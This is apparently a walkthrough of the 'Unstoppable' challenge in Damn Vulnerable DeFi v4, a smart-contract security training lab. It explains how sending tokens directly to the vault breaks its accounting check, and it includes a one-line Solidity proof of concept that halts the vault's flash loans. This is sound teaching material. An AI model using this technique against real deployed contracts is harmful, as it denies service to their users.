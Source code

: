 # Damn Vulnerable DeFi v4 Walkthorugh

## 1.UNSTOPPABLE
Starting with 10 DVT tokens in balance, show that it’s possible to halt the vault. It must stop offering flash loans. _See [challenges/unstoppable/](https://www.damnvulnerabledefi.xyz/challenges/unstoppable/)_

### Attack Analysis
Objective: Prevent `UnstoppableVault.flashLoan()` from successfully executing.

The balance of `UnstoppableVault` is not accounted for unexpected changes (e.g. an ERC20 transfer), by just transfering an small amount to the vault, the below condition fail and revert

https://github.com/CanonicalJP/damn-vulnerable-defi-v4/blob/84b762cb27b1c44cbd2f1ba6caeaaa2805d12a69/src/unstoppable/UnstoppableVault.sol#L84-L85

### PoC

```solidity
function test_unstoppable() public checkSolvedByPlayer {
    token.transfer(address(vault), 1e18);
}
```
_See [test/unstoppable/Unstoppable.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4/blob/master/test/unstoppable/Unstoppable.t.sol)_

----
